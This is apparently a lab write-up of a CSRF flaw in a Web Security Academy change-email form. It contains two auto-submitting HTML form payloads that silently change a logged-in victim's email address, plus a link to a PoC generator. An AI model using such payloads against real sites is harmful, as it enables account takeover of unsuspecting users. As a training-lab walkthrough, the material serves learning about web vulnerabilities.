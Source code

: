 # CSRF Vulnerability

Afte Logging with the ```username:password``` given, we surf to change email page! when looking into the request, we check that there's no verification before submiting the request! means we can send to a target the url with the new email inside the url using ```POST``` request.

![****](/CSRF/Screenshots/cssf1.PNG)

## Let generate some Payloads!

CSRF PoC Generator
	- https://security.love/CSRF-PoC-Genorator/

```php
﻿<html>
<form enctype="multipart/form-data" method="POST" action="X.web-security-academy.net/my-account/change-email">
	<table>
		<tr>
			<td>email</td>
			<td><input type="text" value="just@aa.aa" name="email"></td>
		</tr>
	</table>
		<input type="submit" value="https://ac9f1f6a1f9ccdd0c06604330076008b.web-security-academy.net/my-account/change-email">
	</form>
</html>
<script>
	document.forms[0].submit();
</script>
```

Here's another payload!

```php
<form method="POST" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
</form>
<script>
	document.forms[0].submit();
</script>
```